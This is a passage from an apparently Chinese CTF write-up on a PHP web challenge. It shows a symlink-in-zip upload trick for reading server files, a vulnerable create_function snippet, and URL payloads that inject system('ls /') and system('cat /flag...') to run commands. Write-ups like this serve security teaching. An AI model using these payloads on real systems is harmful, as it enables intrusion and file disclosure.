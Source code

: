 直接访问[http://xxxx/70b185c80f225924f86d4a1dedddd120.php](http://xxxx/70b185c80f225924f86d4a1dedddd120.php) 会提示you can not visit it directly。所以我们要 [http://xxxx/index.php?page=70b185c80f225924f86d4a1dedddd120](http://xxxx/index.php?page=70b185c80f225924f86d4a1dedddd120) 这样访问。  
发现可以上传zip格式文件，那就可以考虑一下zip协议。上传一个zip压缩马，会发现其会读取zip文件的内容。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084655-12c0b924-8f07-1.png)

那么我们可以尝试创建软链接文件，将其打包成zip并上传，这样就可以读取网站源码了。例如下面读取index.php源码。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084701-1623fcac-8f07-1.png)

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084704-181d0be8-8f07-1.png)

index.php

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084712-1d38c0ea-8f07-1.png)

host.php、function.php

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084720-217ec730-8f07-1.png)

/etc/apache2/sites-available/000-default.conf

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084727-25f3c374-8f07-1.png)

尝试读取 `/flag` 没读到。发现/etc/apache2/sites-available/000-default.conf中有/var/www/html/m4nag3r_u_dont_know目录，访问[http://xxxx/m4nag3r_u_dont_know/index.php](http://xxxx/m4nag3r_u_dont_know/index.php) 出错，那么尝试读取/var/www/html/m4nag3r_u_dont_know/index.php源码

// /var/www/html/m4nag3r_u_dont_know/index.php
```
<?php
create_function($_REQUEST['func'],'flag');
?>
```

最后就是create_function代码注入了  
[http://xxxx//m4nag3r_u_dont_know/?func=){}system(%27ls%20/%27);//](http://xxxx//m4nag3r_u_dont_know/?func=){}system(%27ls%20/%27);//)

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084734-2a046e3c-8f07-1.png)

[http://xxxx//m4nag3r_u_dont_know/?func=){}system(%27cat%20/flag_e10adc3949ba59abbe56e057f20f883e%27);//](http://xxxx//m4nag3r_u_dont_know/?func=){}system(%27cat%20/flag_e10adc3949ba59abbe56e057f20f883e%27);//)

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084740-2da3bafc-8f07-1.png)

### cat market

一开始，我们会发现证书有问题，而且无法正常访问网站。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084747-320ae6ce-8f07-1.png)
